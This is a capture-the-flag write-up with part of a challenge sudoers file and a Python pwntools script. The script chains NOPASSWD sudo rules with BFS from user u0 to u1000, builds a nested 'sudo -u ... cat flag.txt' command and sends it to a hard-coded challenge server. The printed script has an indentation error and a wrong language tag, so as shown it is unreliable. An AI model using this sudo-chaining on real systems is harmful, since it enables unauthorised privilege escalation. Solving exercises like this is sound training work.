u879 ALL=(u732) NOPASSWD: ALL
u880 ALL=(u601, u964) NOPASSWD: ALL
u881 ALL=(u287, u342, u410, u634) NOPASSWD: ALL
u882 ALL=(u669) NOPASSWD: ALL
u883 ALL=(u967) NOPASSWD: ALL
u884 ALL=(u626) NOPASSWD: ALL
u885 ALL=(u31, u659) NOPASSWD: ALL
u886 ALL=(u972) NOPASSWD: ALL
u887 ALL=(u282, u629) NOPASSWD: ALL
u888 ALL=(u247, u315, u961) NOPASSWD: ALL
u889 ALL=(u348) NOPASSWD: ALL
u890 ALL=(u217) NOPASSWD: ALL
u891 ALL=(u26, u250, u654) NOPASSWD: ALL
u892 ALL=(u632, u687, u923) NOPASSWD: ALL
u893 ALL=(u154) NOPASSWD: ALL
u894 ALL=(u242, u589, u939) NOPASSWD: ALL
u895 ALL=(u51, u275, u953) NOPASSWD: ALL
u896 ALL=(u657) NOPASSWD: ALL
u897 ALL=(u526, u873) NOPASSWD: ALL
u898 ALL=(u614, u682) NOPASSWD: ALL
u899 ALL=(u647, u915) NOPASSWD: ALL
u900 ALL=(u947) NOPASSWD: ALL
u901 ALL=(u270) NOPASSWD: ALL
u902 ALL=(u303, u707) NOPASSWD: ALL
u903 ALL=(u740) NOPASSWD: ALL
u904 ALL=(u205) NOPASSWD: ALL
u905 ALL=(u587, u642) NOPASSWD: ALL
u906 ALL=(u328, u620) NOPASSWD: ALL
u907 ALL=(u142) NOPASSWD: ALL
u908 ALL=(u6, u230, u243, u298, u971) NOPASSWD: ALL
u909 ALL=(u263) NOPASSWD: ALL
u910 ALL=(u700) NOPASSWD: ALL
u911 ALL=(u514) NOPASSWD: ALL
u912 ALL=(u323, u547, u615, u933) NOPASSWD: ALL
u913 ALL=(u356, u648, u965) NOPASSWD: ALL
u914 ALL=(u170, u922) NOPASSWD: ALL
u915 ALL=(u203, u258, u831, u899) NOPASSWD: ALL
u916 ALL=(u572, u640, u695, u864) NOPASSWD: ALL
u917 ALL=(u673, u927) NOPASSWD: ALL
u918 ALL=(u542) NOPASSWD: ALL
u919 ALL=(u283, u575) NOPASSWD: ALL
u920 ALL=(u316, u957) NOPASSWD: ALL
u921 ALL=(u198) NOPASSWD: ALL
u922 ALL=(u163, u567, u859, u914) NOPASSWD: ALL
u923 ALL=(u600, u892) NOPASSWD: ALL
u924 ALL=(u414) NOPASSWD: ALL
u925 ALL=(u447, u570, u951) NOPASSWD: ALL
u926 ALL=(u256, u311, u535, u603) NOPASSWD: ALL
u927 ALL=(u917) NOPASSWD: ALL
u928 ALL=(u158, u954) NOPASSWD: ALL
u929 ALL=(u191, u595, u819) NOPASSWD: ALL
u930 ALL=(u628) NOPASSWD: ALL
u931 ALL=(u150) NOPASSWD: ALL
u932 ALL=(u183, u238, u475, u530) NOPASSWD: ALL
u933 ALL=(u216, u912) NOPASSWD: ALL
u934 ALL=(u598) NOPASSWD: ALL
u935 ALL=(u522, u814) NOPASSWD: ALL
u936 ALL=(u555, u623, u847) NOPASSWD: ALL
u937 ALL=(u588) NOPASSWD: ALL
u938 ALL=(u123) NOPASSWD: ALL
u939 ALL=(u211, u894) NOPASSWD: ALL
u940 ALL=(u244, u872) NOPASSWD: ALL
u941 ALL=(u113, u972) NOPASSWD: ALL
u942 ALL=(u146, u495) NOPASSWD: ALL
u943 ALL=(u528, u583) NOPASSWD: ALL
u944 ALL=(u842) NOPASSWD: ALL
u945 ALL=(u138, u430, u656) NOPASSWD: ALL
u946 ALL=(u171, u239, u867) NOPASSWD: ALL
u947 ALL=(u553, u845, u900) NOPASSWD: ALL
u948 ALL=(u367) NOPASSWD: ALL
u949 ALL=(u510, u802) NOPASSWD: ALL
u950 ALL=(u264, u488) NOPASSWD: ALL
u951 ALL=(u925) NOPASSWD: ALL
u952 ALL=(u166) NOPASSWD: ALL
u953 ALL=(u199, u827, u895, u958) NOPASSWD: ALL
u954 ALL=(u636, u860, u928) NOPASSWD: ALL
u955 ALL=(u395) NOPASSWD: ALL
u956 ALL=(u483) NOPASSWD: ALL
u957 ALL=(u516, u920) NOPASSWD: ALL
u958 ALL=(u953) NOPASSWD: ALL
u959 ALL=(u139, u194) NOPASSWD: ALL
u960 ALL=(u172, u855) NOPASSWD: ALL
u961 ALL=(u541, u833, u888) NOPASSWD: ALL
u962 ALL=(u355) NOPASSWD: ALL
u963 ALL=(u219, u443, u511) NOPASSWD: ALL
u964 ALL=(u197, u252, u544, u880) NOPASSWD: ALL
u965 ALL=(u66, u913) NOPASSWD: ALL
u966 ALL=(u99, u154) NOPASSWD: ALL
u967 ALL=(u132, u591, u828, u883) NOPASSWD: ALL
u968 ALL=(u569) NOPASSWD: ALL
u969 ALL=(u438) NOPASSWD: ALL
u970 ALL=(u416, u471) NOPASSWD: ALL
u971 ALL=(u212, u504, u908) NOPASSWD: ALL
u972 ALL=(u886, u941) NOPASSWD: ALL
u973 ALL=(u59, u127, u755, u810) NOPASSWD: ALL
u974 ALL=(u160, u496, u788) NOPASSWD: ALL
u975 ALL=(u255) NOPASSWD: ALL
u976 ALL=(u119) NOPASSWD: ALL
u977 ALL=(u84, u152, u207, u499, u725, u780, u835) NOPASSWD: ALL
u978 ALL=(u185, u813, u868) NOPASSWD: ALL
u979 ALL=(u54) NOPASSWD: ALL
u980 ALL=(u87, u491) NOPASSWD: ALL
u981 ALL=(u524, u748) NOPASSWD: ALL
u982 ALL=(u557) NOPASSWD: ALL
u983 ALL=(u79, u426) NOPASSWD: ALL
u984 ALL=(u112, u404, u808, u863) NOPASSWD: ALL
u985 ALL=(u841) NOPASSWD: ALL
u986 ALL=(u82) NOPASSWD: ALL
u987 ALL=(u115, u451, u743) NOPASSWD: ALL
u988 ALL=(u484, u552, u776) NOPASSWD: ALL
u989 ALL=(u592) NOPASSWD: ALL
u990 ALL=(u107) NOPASSWD: ALL
u991 ALL=(u140, u768, u836) NOPASSWD: ALL
u992 ALL=(u801) NOPASSWD: ALL
u993 ALL=(u42) NOPASSWD: ALL
u994 ALL=(u424, u479) NOPASSWD: ALL
u995 ALL=(u457, u861) NOPASSWD: ALL
u996 ALL=(u34) NOPASSWD: ALL
u997 ALL=(u67, u135, u359, u708) NOPASSWD: ALL
u998 ALL=(u100, u168, u796) NOPASSWD: ALL
u999 ALL=(u482, u829) NOPASSWD: ALL
```

Upon inspecting the Dockerfile, we observed that the system creates 1001 users, named u0 through u1000.

The flag is located at /home/user/flag.txt and is owned by u1000 with strict permissions (400)

The entry point script (start.sh) drops us into a shell as user u0 with a strict time limit of 60 seconds.

The core of challenge lies in the sudoers file. It defines a complex web of permissions where specific users are allowed to run commands as other specific users without a password.

# The problem

Since we only have 60 seconds, manual exploration is impossible. We can use Shortest Path problem on a directed graph.

- Vertices (V) → The users (u0, …, u1000)
- Edges (E) → A directed edge exists from a U_a to U_b if the sudoers file contains a rule allowing U_a to run commands as U_b.
- Objective → find a path from start Node (u_0) to target Node (u_1000)

# Sol

We developed a Python script using `pwntools` to automate the exploitation process:

1. **Parse:** Read the `sudoers` file and build an adjacency list representing the graph.
2. **Search:** Use the **Breadth-First Search (BFS)** algorithm to find the shortest path from `u0` to `u1000`. BFS is ideal here because the graph is unweighted.
3. **Exploit:** Construct a nested `sudo` command chain based on the found path and send it to the server.

solve.py:

```c
import re
from collections import deque
from pwn import *

HOST = '34.180.66.205' 
PORT = 55655

def parse_sudoers(filename):
    graph = {}
    with open(filename, 'r') as f:
        lines = f.readlines()
        
    for line in lines:
        line = line.strip()
        
        match = re.search(r'u(\d+)\s+ALL=\((.*?)\)\s+NOPASSWD:', line)
        if match:
            current_user = int(match.group(1))
            targets_str = match.group(2)
            
            targets = [int(x.replace('u', '').strip()) for x in targets_str.split(',')]
            graph[current_user] = targets
            
    return graph

def bfs_find_path(graph, start, end):
      queue = deque([(start, [start])])
    visited = set([start])
    
    while queue:
        (vertex, path) = queue.popleft()
        
        if vertex == end:
            return path
            
        
        if vertex in graph:
            for neighbor in graph[vertex]:
                if neighbor not in visited:
                    visited.add(neighbor)
                    queue.append((neighbor, path + [neighbor]))
    return None

def main():
    
    try:
        graph = parse_sudoers('sudoers.txt')
    except FileNotFoundError:
        return

    print("[*] Finding path form u0 to u1000...")
    path = bfs_find_path(graph, 0, 1000)
    
    if not path:
        return

    payload = ""
    for user in path[1:]:
        payload += f"sudo -u u{user} "
    
    payload += "cat /home/user/flag.txt"
    print(f"[*] Payload: {payload}")

    print("[*] Connecting to server...")
    try:
        r = remote(HOST, PORT)
        r.sendline(payload.encode())
        print("[*] Sending payload...")
        r.interactive()
    except Exception as e:
        print(f"[-] Connection error: {e}")

if __name__ == '__main__':
    main()
```

# Flag

